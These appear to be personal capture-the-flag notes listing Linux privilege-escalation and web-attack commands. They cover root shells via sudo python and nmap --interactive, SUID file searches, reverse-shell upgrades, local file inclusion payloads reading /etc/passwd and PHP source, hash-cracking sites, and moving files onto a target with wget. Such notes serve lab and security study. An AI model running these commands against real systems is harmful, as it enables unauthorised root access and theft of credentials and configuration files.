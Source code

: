 * check wp-config.php if wordpress
* netstat -antp

* linux exploit suggester
    * can probably write(and download) to /tmp
    * sudo -l (display all files that can be run by sudo)
    * get root
        * python (check sudo -l)
            * sudo /usr/bin/python
                * import os
                    * os.system('/bin/bash')
    * if root check /root for flag
    * spawn shell (if reverse shell is logged in as daemon)
        * /bin/sh -i
        * python -c 'import pty; pty.spawn("/bin/sh")'
    * find / -perm 4000 2>/dev/null
* find files belonging to user
    * ``find / -user olav`` (python scripts are good to get reverse shell from)

# get root using nmap:
```bash
nmap --interactive
!sh
```


# misc
* download only images from url:
    * ``wget -nd -r -P /save/location -A jpeg,jpg,bmp,gif,png http://www.somedomain.com`` (remove -nd to keep dir hierarhy)
    * if logged in but dont have password read token in cookie
        * jsonwebtoken.io (decoder)
        * md5online.org (decrypt md5)
        * crackstation.net (password hash cracker)
        * Cookie Editor (firefox addon)
        * hash-identifier to recognize hashes
        * ``.../iframei.php?ParamUrl=666   /etc/passwd  iframe``
    * decode base64
        * decode: ``echo QWxhZGRpbjpvcGVuIHNlc2FtZQ== | base64 --decode && echo``
        * encode: ``echo 'haha yes hva skjer' | base64  && echo``
    * read bin file with ``'strings FILENAME'``
    * onlinehashcrack.com
    * http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
    * transfer file from one machine to another using python:
        * from the directory the file is in open terminal and enter 'python -m SimpleHTTPServer'
            * from receiver enter: 'wget http://192.168.1.10/file'
    * whatcms.org
        * Striker - Striker is an offensive information and vulnerability scanner. Mainly DNS
    * https://gchq.github.io/CyberChef/ ENCODER/DECODER
    * sqlmap: https://github.com/sqlmapproject/sqlmap 
    * compile C: gcc file.c -o file (read payload notes)
    * su - olav (- provides a new shell, logs a user in completely)
    * optimize a huge wordlist:
        * cat file.dic | sort -u | uniq > fileNew.dic    // sorts in ascending, uniques
    * locale file exclusion (look for html comments):
        * example: ?lang=php://filter/convert.base64-encode/resource=index
